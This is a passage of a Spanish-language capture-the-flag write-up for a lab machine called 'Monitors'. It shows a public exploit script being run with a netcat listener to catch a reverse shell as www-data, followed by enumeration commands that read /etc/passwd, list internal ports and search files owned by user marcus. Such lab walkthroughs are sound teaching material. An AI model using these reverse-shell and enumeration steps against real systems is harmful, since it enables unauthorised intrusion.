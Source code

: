 ```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 49810.py 
usage: 49810.py [-h] -t <target/host URL> -u <user> -p <password> --lhost <lhost> --lport <lport>
49810.py: error: the following arguments are required: -t, -u, -p, --lhost, --lport
```
Vale, nos pide la `url` de la víctima, usuario, contraseña, IP local y puerto, bien, proporcionemos estos datos, pero no si antes ponernos en escucha con `netcat`:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ nc -lvnp 4444
Listening on 0.0.0.0 4444
```
Ahora ejecutemos el exploit:

![image](https://user-images.githubusercontent.com/67548295/136940583-1f3a9b67-8393-45ec-9184-a2d43ca1da7a.png)

¡Conseguimos acceso a la máquina!

Somos usuario `www-data` asi que habrá que seguir enumerando para convertirnos en otro usuario con un poco más de **privilegios**.

```bash
www-data@monitors:/home$ grep -E 1[0-9]{3}  /etc/passwd | sed s/:/\ / | awk '{print $1}'
marcus
```
En este caso, tenemos que buscar la forma de convertirnos en el usuario `marcus`.

---

Enumero el sistema hasta que encuentro que hay un **puerto interno en escucha** poco común:

```bash
www-data@monitors:/home$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN     

[...]
```
Pero tras ver que no podemos conectarnos por **SSH** para hacer [port forwarding](https://culturacion.com/que-es-port-forwarding/){:target="\_blank"}{:rel="noopener nofollow"}, sigo enumerando.

Me acuerdo de que nuestro objetivo era `marcus`, asi procedí a enumerar archivos que fueran de su propiedad en busca de algo que fuese relevante:

```bash
www-data@monitors:/$ find / -user marcus 2>/dev/null | grep -v -E "proc|sys"
/run/user/1000
/home/marcus
/home/marcus/.backup
/home/marcus/.gnupg
/home/marcus/.bash_logout
/home/marcus/.profile
/home/marcus/.bashrc
/home/marcus/.cache
/dev/pts/1
```
Nada interesante.
